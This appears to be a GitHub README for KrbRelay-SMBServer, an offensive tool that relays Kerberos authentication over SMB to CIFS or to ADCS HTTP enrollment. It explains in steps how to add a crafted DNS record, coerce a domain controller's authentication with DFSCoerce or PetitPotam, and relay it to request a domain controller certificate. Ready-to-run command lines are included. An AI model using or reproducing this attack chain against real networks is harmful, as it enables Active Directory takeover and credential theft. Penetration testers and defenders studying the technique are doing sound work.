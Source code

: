 # KrbRelay-SMBServer

This krbrelay version acts as an SMB server (instead of DCOM) to relay Kerberos AP-REQ to CIFS or HTTP. <br>
It's 90% based on @cube0x0's KrbRelay:  https://github.com/cube0x0/KrbRelay<br><br>
To control the SPN for relaying, James Forshaw's *CredMarshalTargetInfo()* trick is required: https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html<br><br>

Create a DNS entry for the target server_name you want to relay the kerberos AP-REQ as: *<server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA*  and mapped to your listener/relay IP. <br>
Domain users can typically perform secure DNS updates, for example you can use powershell script *invoke-dnsupdate* (https://github.com/Kevin-Robertson/Powermad) for adding a DNS entry<br><br>

Trigger the SMB authentication with a third-party tool, for example  DFSCoerce https://github.com/Wh04m1001/DFSCoerce,  PetitPotam https://github.com/topotam/PetitPotam , etc... and relay it to the attacker machine.<br><br>
Given that SMB port is 445 you have two options on the Windows attacker machine:<br>
* use a Linux box acting as redirector
* disable the SERVER serice on your Windows machine
<br><br>


This is a quick & dirty adaptation from original project, leaving cleanup and optimization to you  ;)
<br>
### Examples

````
# Relay the DC SMB authentication to HTTP (ADCS) web enrollment and request client certificate using a linux box redirecting to windows attacker machine on port 9999:<br>
krbRelay.exe -spn http/adcs-mylab.mylab.local -redirecthost adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv  -adcs DomainController -listenerport 9999<br>
#In another window:
DFSCoerce.exe -l adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  -t DC-2
(https://github.com/decoder-it/DFSCoerce-exe-2)

# special command line switches:
-listener: relay listener port
-redirecthost: relay server/redirector  mapped to the sepcial DNS entry <server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA


For detailed usage and command line switches refer to original krbrelay tool
````
<img width="952" alt="Screenshot 2024-10-07 143939" src="https://github.com/user-attachments/assets/cc4d9796-6a26-4d99-9f5e-85de5ffe872d">

<img width="848" alt="Screenshot 2024-10-07 113416" src="https://github.com/user-attachments/assets/5a91b65b-6f87-4f4f-935d-8283f587cd81">

<img width="908" alt="Screenshot 2024-10-07 113227" src="https://github.com/user-attachments/assets/4b3a0be1-7fa7-4de6-aa5a-d645151483af">
